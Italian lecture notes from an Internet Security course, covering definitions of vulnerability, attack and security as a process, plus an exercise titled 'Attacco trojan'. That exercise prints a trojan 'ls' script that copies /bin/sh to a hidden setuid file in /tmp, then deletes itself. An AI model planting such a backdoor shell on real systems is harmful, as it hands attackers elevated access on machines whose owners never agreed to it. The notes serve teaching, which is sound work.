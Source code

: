 # 2022-03-14
# Cose da cercare
- [ ] [Bug dash](https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=%20734869)
- [ ] PSD2
# Internet Security
Anche solo fare una copia di file può portare problemidi sicurezza dato che si parla di permessi del file che copiandolo diventa di nostra proprietà

!def Vulnerabilità
Una vulnerabilità è una particolarità del sistema che può essere usato per perpretare azioni con intenzioni malevole

!def Attacco
La vera e propria perpretazione delle azioni malevole

> Noi dovremo imparare inquesto insegnamento metodi e tecniche fondamentali:
> - Crittografia
> - Policy
> - Conoscenza, possesso, biometria
> - Programmi di protezione
> - Protocolli di sicurezza
> - Sensibilizzazione dell'utente

```ad-def 
title:*Sicurezza*

- Non un prodotto ma un processo
- anello più debole di una catena
- Espressa sa che cosa
- Sempre soggeta all'analisi costio/benefici
- Si realizza in ppratica mediante livelli di sicurezza
```
!def Rischi di base per la sicurezza
- complessità del singolo sistema da mettere in sicurezza
- Conbinazione di sistemi
- Predisposizioni ai bug
- Proprietà emergenti
- Interazione con l'uomo

Una proprietà di sicurezza è presente quando è presente un mezzo d'attacco

## Esercizi
````ad-exercise 
title:Attacco trojan
Provare su varie distro Ubuntu

```bash
cp /bin/sh /tmp/.xxsh
chmod u+s,o+x /tmp/.xxsh
rm ./ls
ls $*
```
````

# Registrazione

![[Recording 20220314131117.webm]]
